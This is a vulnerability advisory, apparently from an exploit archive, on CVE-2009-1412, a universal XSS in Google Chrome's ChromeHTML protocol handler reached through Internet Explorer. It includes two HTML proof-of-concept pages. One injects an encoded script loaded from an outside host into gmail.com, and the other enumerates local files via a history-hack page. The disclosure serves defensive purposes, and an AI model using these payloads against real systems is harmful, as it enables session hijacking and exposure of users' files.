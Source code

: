 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2009-04-23' 
alephid: ALEPH-2009000
cve: CVE-2009-1412
date: '2009-04-23'
title: 'Google Chrome ChromeHTML Protocol Handler Universal XSS'
severity: high
product:
    - Google Chrome
vulnerable: 
    - 1.0.154.55 and earlier
mitigation: 
    - Apply 1.0.154.59 or later.

references:
    - src: paper
      url: http://blog.watchfire.com/files/google-chrome-advisory.doc
    - src: 'chromium bug track: Issue 9860' 
      url: https://bugs.chromium.org/p/chromium/issues/detail?id=9860
   
---
```

A vulnerability in the ChromeHTML URL handler, allows forcing Google Chrome load arbitrary URIs when it is launched through IE. Combined with other issues, this seemingly harmless vulnerability opens the door to two major attack vectors:

* Bypass the Same Origin Policy restrictions for any site (this has the same impact as Universal XSS)
* Enumerate victim's local files and directories.

It is important to note that the way Internet Explorer processes URL protocol handlers is a known Achilles' heel and has been widely used previously to attack other various applications.

## Proof-of-Concept ##

Universal XSS:
```html

<html>
<title>Google Chrome universal XSS POC</title>
<!--[if IE]>
<p>This PoC will launch Chrome, redirect it to http://www.gmail.com and execute arbitrary JavaScirpt on that domain.</p>
<p>Launching chrome...</p>
<script> document.location = 'chromehtml:"80%20javascript:document.write(unescape(\'%3C%73%63%72%69%70%74%25%32
%30%73%72%63%3D%68%74%74%70%3A%2F%2F%62%6C%6F%67
%2E%77%61%74%63%68%66%69%72%65%2E%63%6F%6D%2F%66
%69%6C%65%73%2F%6A%73%2E%6A%73%3E%3C%2F%73%63%72
%69%70%74%3E\'))"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```
File Enumeration:
```html
<title>Google Chrome local files and folders enumeration</title>
<!--[if IE]>
<p>This PoC will launch Chrome with four arbitrary directories and an attacker-controlled web page.<br> The web page is used to enumerate local files and folders using a known history hack</p>
<script>
    document.location = 'chromehtml:"80%20c:/exists%20c:/nonexisting%20
    c:/windows%20c:/winnt%20http://blog.watchfire.com/files/historyhack.html"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```